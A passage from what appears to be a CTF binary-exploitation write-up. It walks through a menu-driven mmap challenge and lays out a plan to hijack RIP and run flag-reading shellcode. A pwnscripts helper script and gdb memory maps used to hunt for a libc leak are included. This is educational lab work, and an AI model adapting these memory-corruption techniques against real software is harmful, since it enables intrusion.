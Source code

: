 ```c
        exit(0);
        break;
    }
  } while ( --loop_remaining );
  fclose(logger_fd);
  return 0LL;
}
```
The main loop menu gives 3+1 options:
1. initialise a memory page via `mmap()`, with all arguments controlled by the user. the pointer to the mmaped region is returned, setting the variable `scratch` to it.
2. this command will print a user-controlled number of bytes from `scratch`.
3. this command will read in a user-controlled number of user-controlled bytes to `scratch`.
4. This will quit the program

The nature of the exploit here is not immediately apparent. Given that there are no restrictions on o/r/w syscalls, the most difficult part of this challenge will probably be controlling RIP, because once we've done that, all we'll really have to do is to jump to a user-initialised rwx mmap page of `read(open("flag"), buf, 999);` for the flag<sup>1</sup>.

Before getting RIP to the shellcode we desire, we'll need to find some way to leak libc, or some other method we can use to alter code execution.

## Finding libc
From [another challenge](https://github.com/IRS-Cybersec/ctfdump/blob/master/Hack%20The%20Vote%202020/Electrostar.md) I'd done previously<sup>2</sup>, I remembered that mmap, given `addr=NULL`, tends to put its new memory page extremely nearby the location of libc, giving an effective leak via `logger_fd`. On a machine with a similar libc version, I tested this:

```python
from pwnscripts import *
context.binary = 'chall'
context.libc_database = 'libc-database'
r = context.binary.process()
def create(addr: int=0, length: int=0, prot: int=0, flags: int=0, fd: int=0, offset: int=0):
    r.sendlineafter('choice = ', '1')
    r.sendlineafter('addr = ', hex(addr))
    r.sendlineafter('len  = ', hex(length)) #there's an extra space here -_-
    r.sendlineafter('prot = ', str(prot))
    r.sendlineafter('flags = ', str(flags))
    r.sendlineafter('fd = ', str(fd))
    r.sendlineafter('offset = ', str(offset))
def write(sz: int):
    r.sendlineafter('choice = ', '2')
    r.sendlineafter('sz = ', str(sz))
    r.recvuntil('data = ')
    return b''.join(r.recv(0xfff) for _ in range(sz//0xfff)) + r.recv(sz%0xfff)
def read(sz: int, data: bytes):
    r.sendlineafter('choice = ', '3')
    r.sendlineafter('sz = ', str(sz))
    r.sendlineafter('data = ', str(data))
gdb.attach(r)
create(length=0x1000, prot=7, flags=1, fd=3)
r.interactive()
```
##### Before `mmap(NULL, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_SHARED, 3, 0)`
```python
Start              End                Offset             Perm Path
0x00005654e60d5000 0x00005654e60f6000 0x0000000000000000 rw- [heap]
0x00007fc2fea31000 0x00007fc2fea34000 0x0000000000000000 rw-
0x00007fc2fea34000 0x00007fc2fea59000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fc2fea59000 0x00007fc2febd1000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fc2febd1000 0x00007fc2fec1b000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
```